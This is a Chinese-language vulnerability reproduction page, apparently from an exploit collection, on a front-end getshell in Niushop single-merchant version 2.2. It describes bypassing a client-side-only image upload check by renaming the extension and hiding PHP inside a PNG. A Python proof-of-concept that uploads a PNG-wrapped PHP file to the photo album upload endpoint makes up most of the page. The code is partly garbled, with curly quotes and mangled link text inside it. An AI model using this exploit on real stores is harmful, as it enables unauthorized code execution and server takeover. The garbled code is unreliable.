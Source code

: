 ```yaml
---
title: "Niushop 单商户 2.2 前台getshell"
id: zhfly3051
---
```


# Niushop 单商户 2.2 前台getshell

## 一、漏洞简介

## 二、漏洞影响

Version：单商户 2.2

## 三、复现过程

![image](../img/30ae05703a11c062a74833bac0fae902.png)

上传图片只做了前端校验，抓包改后缀即可绕过。

对文件内容做了检查，文件大小不能过大或过小，合成马最好放到中间。

请求包截图，删除不必要的参数仍旧能够上传。

![image](../img/7148765a4215e2bf53a73d87c75a7d95.png)

所以导致**前台getshell**

### poc

```
import requests

session = requests.Session()

paramsGet = {“s”:"/wap/upload/photoalbumupload"}

paramsPost = {“file_path”:“upload/goods/”,“album_id”:“30”,“type”:“1,2,3,4”}

paramsMultipart = [(‘file_upload’, (‘themin.php’, “\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0bIDAT\x08\x99c\xf8\x0f\x04\x00\x09\xfb\x03\xfd\xe3U\xf2\x9c\x00\x00\x00\x00IEND\xaeB`\x82<? php phpinfo(); ?>”, ‘application/octet-stream’))]

headers = {“Accept”:“application/json, text/javascript, */*; q=0.01”,“X-Requested-With”:“XMLHttpRequest”,“User-Agent”:“Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0”,“Referer”:“[http://127.0.0.1/index.php?s=/admin/goods/addgoods",“Connection”:“close”,“Accept-Language”:“en”,“Accept-Encoding”:"gzip](http://127.0.0.1/index.php?s=/admin/goods/addgoods%22,%22Connection%22:%22close%22,%22Accept-Language%22:%22en%22,%22Accept-Encoding%22:%22gzip), deflate”}

cookies = {“action”:“finish”}

response = session.post(“[http://127.0.0.1/index.php](http://127.0.0.1/index.php)”, data=paramsPost, files=paramsMultipart, params=paramsGet, headers=headers, cookies=cookies) `print(“Status code:   %i” % response.status_code)

print(“Response body: %s” % response.content)` 
```

## 参考链接

> https://y4er.com/post/niushop-getshell/